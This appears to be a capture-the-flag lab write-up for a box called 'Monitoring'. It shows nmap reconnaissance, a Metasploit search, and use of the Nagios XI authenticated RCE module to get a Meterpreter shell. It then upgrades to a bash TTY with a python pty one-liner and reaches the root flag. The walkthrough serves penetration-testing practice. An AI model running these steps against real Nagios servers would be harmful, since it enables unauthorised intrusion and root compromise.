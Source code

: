 *Monitoring*

**RECON**

---
**Ip Search** 
Investigating the IP shows Nagios XI  
![image1](https://user-images.githubusercontent.com/66635295/158923291-f9f3c79d-29cd-4356-abac-a06c8a23c1c8.png)
**Login Page** 
![image4](https://user-images.githubusercontent.com/66635295/158923386-5a962c6b-12a7-4478-8ac3-7a4a7dbbfb76.png)



**Nmap Scan**  
<pre>nmap -sC -sV -A 192.168.54.136 </pre>  
-safe scripts -service version -OS /version detection  
![image3](https://user-images.githubusercontent.com/66635295/158923500-63ccf817-750b-4cc0-b922-5fec2ac9aed3.png)

**Exploit Search**
<pre>msfconsole </pre>   
<pre>search nagios </pre>   
![image7](https://user-images.githubusercontent.com/66635295/158925208-7aaf44af-6018-45f6-9136-02605a2546df.png)

**Service Version**
Provided Exploits Did not work howeve rreavel the service version   
![image6](https://user-images.githubusercontent.com/66635295/158925523-9ec073a8-fad8-47e2-a719-fd456de16bdd.png)  
**Google-Fu**
<pre>Nagios XI Remote Code Execution</pre> 
Exploit allows for root access prior to 5.6.6  
![image11](https://user-images.githubusercontent.com/66635295/158925803-ec6d2456-8095-4b7c-9e4b-b1cbced68f63.png)

**ENUMURATION**
---
**Exploit**
<pre>use exploit /linux/http/nagios_xi_autheticated_rce</pre>
Reveales it had been moved  
![image8](https://user-images.githubusercontent.com/66635295/158925989-31db1f9c-15ac-4db7-91c5-ec38690de593.png)

**Set Options and run**
Provides Meterpreter Shell  
![image5](https://user-images.githubusercontent.com/66635295/158926369-64c23ac5-0917-40e2-949a-1d92f7646f11.png)

**Privilege/Root Escalation**
---
**Switch to TTY Shell**
<pre>shell</pre>  
<pre>python -c ‘import pty;pty.spawn(“/bin/bash”)’</pre>  
![image10](https://user-images.githubusercontent.com/66635295/158926563-d75b3cd4-d4fe-431b-98f2-dc7574b39e2e.png)
**Root Flag**  
<pre>cd /root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158926788-e02ea43c-383f-4516-8506-dfced0d5e020.png)

